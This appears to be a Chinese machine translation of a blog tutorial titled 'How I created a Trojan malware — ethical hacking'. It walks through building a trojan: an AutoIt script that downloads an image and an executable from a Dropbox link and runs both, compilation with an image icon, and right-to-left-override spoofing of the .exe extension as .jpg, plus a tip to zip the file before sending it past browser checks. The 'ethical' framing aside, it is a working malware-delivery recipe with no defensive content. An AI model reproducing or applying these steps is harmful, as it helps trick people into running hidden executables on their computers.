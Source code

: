 # 我如何创建一个木马恶意软件——道德黑客

> 原文：<https://infosecwriteups.com/how-i-created-a-trojan-malware-ethical-hacking-82239a6b64c6?source=collection_archive---------0----------------------->

> *特洛伊木马(或特洛伊木马)是最常见、最危险的威胁类型之一，会感染您的计算机或移动设备。*

![](img/9f42d7507b748424306109da5d65e753.png)

# 什么是木马恶意软件？

**木马恶意软件**，当打开**时，看起来是用户打开的合法文件**，如打开图片或文档或播放媒体文件，但在**后台，它会运行一些邪恶的进程**，如有人可能通过后门或注入一些其他有害代码来访问您的计算机。

# 创建我的木马恶意软件

在这篇博客中，我将向您展示我如何将我的可执行文件与一个图像文件相结合，当打开时，它能够在目标人员打开它时显示图像，但同时，可执行文件在后台运行。简单地说，我将我的`.exe`文件隐藏在一个`.jpg`图像文件中。

这种方法可以扩展到任何文件类型，比如图像、pdf、音乐等等。大多数情况下，可执行文件是一种病毒或后门程序，用于获取对目标计算机的访问权限。让我们来看看这些步骤:

![](img/68c571002ba025e8a0e03600af59948b.png)

## 1.获取图片和`.exe`文件的直接网址

`.exe`可执行文件需要出现在一个公开的 URL 上，浏览器可以从那里直接下载该文件。为此，我已经在 dropbox 上上传了可执行文件。在 dropbox 的情况下，将可共享链接的结尾部分修改为`dl=1`，将允许浏览器直接下载文件。我下面分享的链接不包含任何代码，实际上是一个空文件，因此您可以安全地测试该链接的行为。

**URL 为** `**.exe**` **可执行文件:**[https://www . Dropbox . com/s/hsnvw 0 ik 1 em 0637/some _ evil _ file . exe？dl=1](https://www.dropbox.com/s/hsnvw0ik1em0637/some_evil_file.exe?dl=1)

**我的图片网址:**[https://images . adsttc . com/media/images/5b 04/5e3a/f197/cc1f/9600/00aa/newslett/park _ garden _ concourse . jpg](https://images.adsttc.com/media/images/5b04/5e3a/f197/cc1f/9600/00aa/newsletter/park_garden_concourse.jpg)

![](img/fb95d2f95140ceb1f87d03000f1f99c6.png)

体育中心的图像

我用体育馆的图片作为封面。

## 2.在脚本中使用 URL

```
#include <StaticConstants.au3>
#include <WindowsConstants.au3>Local $urls = "url1,url2"Local $urlsArray = StringSplit($urls, ",", 2 )For $url In $urlsArray
 $sFile = _DownloadFile($url)
 shellExecute($sFile)NextFunc _DownloadFile($sURL)
    Local $hDownload, $sFile
    $sFile = StringRegExpReplace($sURL, "^.*/", "")
    $sDirectory = [@TempDir](http://twitter.com/TempDir) & $sFile
    $hDownload = InetGet($sURL, $sDirectory, 17, 1)
    InetClose($hDownload)
    Return $sDirectory
EndFunc   ;==>_GetURLImage
```

在上面的代码中，在第 3 行，用图像的 URL 替换`url1`,用可执行文件的 URL 替换`url2`。我的最终代码如下所示

```
#include <StaticConstants.au3>
#include <WindowsConstants.au3>
Local $urls = "[https://images.adsttc.com/media/images/5b04/5e3a/f197/cc1f/9600/00aa/newsletter/park_garden_concourse.jpg,https://www.dropbox.com/s/hsnvw0ik1em0637/some_evil_file.exe?dl=1](https://images.adsttc.com/media/images/5b04/5e3a/f197/cc1f/9600/00aa/newsletter/park_garden_concourse.jpg,https://www.dropbox.com/s/hsnvw0ik1em0637/some_evil_file.exe?dl=1)"
Local $urlsArray = StringSplit($urls, ",", 2 )
For $url In $urlsArray
 $sFile = _DownloadFile($url)
 shellExecute($sFile)
Next
Func _DownloadFile($sURL)
    Local $hDownload, $sFile
    $sFile = StringRegExpReplace($sURL, "^.*/", "")
    $sDirectory = [@TempDir](http://twitter.com/TempDir) & $sFile
    $hDownload = InetGet($sURL, $sDirectory, 17, 1)
    InetClose($hDownload)
    Return $sDirectory
EndFunc   ;==>_GetURLImage
```

用扩展名`.au3`保存文件。我已经将文件命名为`trojan.au3`。

## 3.为文件创建图标

由于我使用的是图片作为封面文件，`Windows`通常会将图片的缩略图显示为文件图标，所以我将使用体育综合体图片作为图标，并将其转换为`.ico`格式。你可以谷歌一下，你会发现很多工具可以做到这一点。我用了这个网站-【https://cloudconvert.com/jpg-to-ico 

## 4.编译脚本

这个脚本是用一种叫做`AutoIt`的脚本语言编写的。要在 Ubuntu 中安装`AutoIt`，可以先安装`wine`再安装`AutoIt`，或者如果你想要一个直截了当的方法，从这里提到的步骤开始安装`Veil`https://www.javatpoint.com/installing-veil。`AutoIt`将在其中一个步骤中安装，之后您可以退出安装。

打开编译 AutoIt 应用程序。该窗口应该看起来像下面显示的框。输入`trojan.au3`文件的位置和`.ico`文件的路径。

![](img/04d32ae54220a7ecfcdb5670aca49935.png)

在 windows 计算机上，转换后的文件如下所示。

![](img/2e91519416ddc969a7148a190113e905.png)

嗯，有点不对劲。这个文件的问题在于它的扩展名。很明显，这是一个可执行文件，因为它的扩展名是`.exe`。我们需要伪造这个扩展。

## 5.“欺骗”。“exe”扩展名扩展到任何扩展名

为了欺骗明显的扩展`.exe`并用`.jpeg`替换它，我们将使用一个`right-to-left-override`字符。

要了解欺骗实际上是如何工作的细节以及在哪里放置`right-to-left-override`字符，请阅读博客。

[](https://levelup.gitconnected.com/spoofing-file-extensions-ethical-hacking-bd128189738b) [## 欺骗文件扩展名—道德黑客

### 创建特洛伊木马时，文件扩展名欺骗是一个方便的技巧。我会恶搞的。“exe”扩展为。jpg'…

levelup.gitconnected.com](https://levelup.gitconnected.com/spoofing-file-extensions-ethical-hacking-bd128189738b) 

总结一下上面博客中提到的步骤:

*   将`trojan.exe`重命名为`trojangpj.exe`。
*   在木马后的第 7 位粘贴`right-to-left-override`字符。在`right-to-left-override`字符之后的所有字符将被翻转，即从右向左阅读。

![](img/851284654892e60e6b6080657345c5b6.png)

文件名现在看起来像`trojanexe.jpg`

![](img/cf50e5ac926643965accc0baeed11861.png)

由于文件中包含的图像是一个体育中心，我将用`sportscompl_`替换名称中的`trojan`，这样文件名就变成了`sports_complexe.jpg`。

![](img/3c91070de3819a06d7b0705ad8e7821a.png)

**祝贺你！！！木马准备好了。**

现在，文件名与包含的图像相匹配。一些最新的浏览器在下载前取消了从右到左的覆盖。所以压缩文件并发送过来是个好主意。

> 这是一份探索我们博客平台 [**极客头脑**](https://www.thegeekyminds.com/) 的邀请。一个让您了解软件开发和技术领域最新发展的一站式平台。我们在 [**的极客头脑**](https://www.thegeekyminds.com/) 旨在写一些你实际上可以用来提高工作效率和充实你的职业生活的内容。
> 
> 邀请您在[**https://thegeekyminds.com**](https://thegeekyminds.com/)通过我们的平台。并订阅我们的时事通讯，以便在我们每次发布新帖子时收到电子邮件。我们承诺不会向您的收件箱发送垃圾邮件。点击下面的按钮订阅我们的时事通讯

[![](img/eec8beec45924704f52b518aeb1a3e7b.png)](https://forms.wix.com/4444cf13-7653-460d-9b32-f2e4e65544d1:c2184260-1ab5-4c6a-a37d-53de0778afa0)
